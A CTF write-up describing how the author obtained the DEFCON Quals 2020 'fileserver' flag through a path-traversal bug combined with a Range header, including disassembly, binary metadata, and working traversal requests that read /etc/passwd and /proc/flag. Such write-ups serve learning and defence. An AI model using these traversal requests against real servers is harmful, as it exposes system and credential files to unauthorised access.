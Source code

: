## Pwning a DEFCON Quals binary without pwning it.

Story time, before getting to the write up. I played the pwnables of DEFCON Quals 2020, mainly because it's very fun, and also because I wanted to see what the content would look like, given the remote nature of the contest.

I ended up pwning all three of them, and the writeups can be found [here](https://github.com/naliferopoulos/defcon-quals-2020). Err, not exactly though. I managed to get the last flag, *fileserver*, without pwning the binary whatsoever and that ended up in a funny chat with the DEFCON staff, as well as a prize award! Thanks guys! :)

### DEFCON Qualifiers - Fileserver

For this one, we were given a domain name and a port, but no binary. Behind the remote port there was a webserver, which seemed custom made, and among other things, allowed us to download a compiled copy of itself (we figured that out later on) targeted against 32-bit Linux. 

Evidently, at the time, I though that I was supposed to pwn the binary in order to win. The challenge, just like the previous ones, instructed us to find the flag at */proc/flag*, a fact I did not mention for the previous ones, but which plays an important role for this one.

On to the write up though.

#### Huh?

At first glance, the binary looks like this:

```bash
➜  fileserver checksec target
[*] '/vagrant/DEFCON/fileserver/target'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

Also, readelf shows the following, as far as symbols are concerned (basic *snip snip* has occured):

```bash
➜  fileserver readelf -s target | grep -v "@GLIB"

Symbol table '.symtab' contains 127 entries:
   Num:    Value  Size Type    Bind   Vis      Ndx Name
    38: 08048cda   218 FUNC    LOCAL  DEFAULT   14 rio_read
    39: 08049320   110 FUNC    LOCAL  DEFAULT   14 get_mime_type
    56: 0804972f    98 FUNC    GLOBAL DEFAULT   14 log_access
    58: 0804c0e0   112 OBJECT  GLOBAL DEFAULT   25 meme_types
    67: 08049498   154 FUNC    GLOBAL DEFAULT   14 url_decode
    69: 08049c5f   553 FUNC    GLOBAL DEFAULT   14 process
    74: 0804c150     4 OBJECT  GLOBAL DEFAULT   25 default_mime_type
    85: 08048f4d   979 FUNC    GLOBAL DEFAULT   14 handle_directory_request
    91: 08048db4   137 FUNC    GLOBAL DEFAULT   14 rio_readlineb
    95: 08049b8e   209 FUNC    GLOBAL DEFAULT   14 display_admin_page
   103: 08049e88   371 FUNC    GLOBAL DEFAULT   14 main
   113: 08048c59   129 FUNC    GLOBAL DEFAULT   14 writen
   114: 08049532   509 FUNC    GLOBAL DEFAULT   14 parse_request
   117: 08048c2b    46 FUNC    GLOBAL DEFAULT   14 rio_readinitb
   120: 0804938e   266 FUNC    GLOBAL DEFAULT   14 open_listenfd
   122: 080498b7   727 FUNC    GLOBAL DEFAULT   14 serve_static
   126: 08049791   294 FUNC    GLOBAL DEFAULT   14 client_error
```

The binary is fully symbolicated, but it still contains a bunch of functionality, so we are going to have to take a deeper look at this.

Before doing so, I decided to take a look at the fileserver instance running on the remote host, in order to get a better feel for the target before jumping into static analysis.

That is when I noticed a path traversal vulnerability. By issuing the following HTTP request:

```
➜  fileserver

GET /../../../../../../etc/passwd HTTP/1.0
```

I received the following response:

```
HTTP/1.1 200 OK
Accept-Ranges: bytes
Cache-Control: no-cache
Content-length: 1561
Content-type: text/plain

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
messagebus:x:106:110::/var/run/dbus:/bin/false
uuidd:x:107:111::/run/uuidd:/bin/false
statd:x:108:65534::/var/lib/nfs:/bin/false
sshd:x:109:65534::/var/run/sshd:/usr/sbin/nologin
vagrant:x:900:900:vagrant,,,:/home/vagrant:/usr/bin/zsh
vboxadd:x:999:1::/var/run/vboxadd:/bin/false
```

That is when I got excited, and tried it against the remote host, without any luck. I could only reproduce it locally. While the vulnerability was present, I could not force the server to return the file to me. I could only list directories using the traversal. Bummer :/

I then scrapped the idea of dynamically getting a feel of the target, considering that the challenge category was pwning, and loaded the binary into IDA. After browsing around the disassembly for a bit, the following caught my attention. During *parse_request*, the binary treated incoming requests differently, based on the presence of a Range HTTP Request Header, or more accurately, **"Ran"**.

```
.text:080495BA                 sub     esp, 4
.text:080495BD                 push    400h
.text:080495C2                 lea     eax, [ebp+s1]
.text:080495C8                 push    eax
.text:080495C9                 lea     eax, [ebp+var_420]
.text:080495CF                 push    eax
.text:080495D0                 call    rio_readlineb
.text:080495D5                 add     esp, 10h
.text:080495D8                 movzx   eax, [ebp+s1]
.text:080495DF                 cmp     al, 52h ; 'R'
.text:080495E1                 jnz     short loc_8049644
.text:080495E3                 movzx   eax, [ebp+var_81F]
.text:080495EA                 cmp     al, 61h ; 'a'
.text:080495EC                 jnz     short loc_8049644
.text:080495EE                 movzx   eax, [ebp+var_81E]
.text:080495F5                 cmp     al, 6Eh ; 'n'
.text:080495F7                 jnz     short loc_8049644
.text:080495F9                 mov     eax, [ebp+arg_4]
.text:080495FC                 lea     edx, [eax+204h]
.text:08049602                 mov     eax, [ebp+arg_4]
.text:08049605                 add     eax, 200h
.text:0804960A                 push    edx
.text:0804960B                 push    eax
.text:0804960C                 lea     eax, (aRangeBytesLuLu - 804C000h)[ebx] ; "Range: bytes=%lu-%lu"
.text:08049612                 push    eax
.text:08049613                 lea     eax, [ebp+s1]
.text:08049619                 push    eax
.text:0804961A                 call    ___isoc99_sscanf
```

We can follow the bahavioral change down to **serve_static**, which in the case of a Range header present, *snprintf()'s* the selected part of the file to the response buffer, while the other code path simply skips over it in the case of a file. After all, the juicy part of the (intened solution to the) challenge was getting to the admin page (*page* as in *directory*).

Bingo! While the remote instance won't let us use the directory traversal to fetch files (this is how it was intended to be played), by supplying a range header, we could get it to do so!

```
GET /../../../../../proc/flag HTTP/1.0
Range: bytes=0-90
```

Aaaaaaand:

```
HTTP/1.1 200 OK
Content-Type: text/plain
Content-Length: **redacted**
Cache-Control: no-cache
Accept-Ranges: bytes

**redacted**
```

There it is, we just got the flag using more web stuff than pwning stuff! I know that's a broad definition of what "web stuff" and "pwning stuff" is, but I contacted the DEFCON team afterwards and they informed me that this was not the inteded solution. 

Considering this, I would far more have loved to actually pwn the challenge, as it is a 400pts DEFCON Quals one, but nonetheless, the hax were for once *pretty-cool-hax™*.
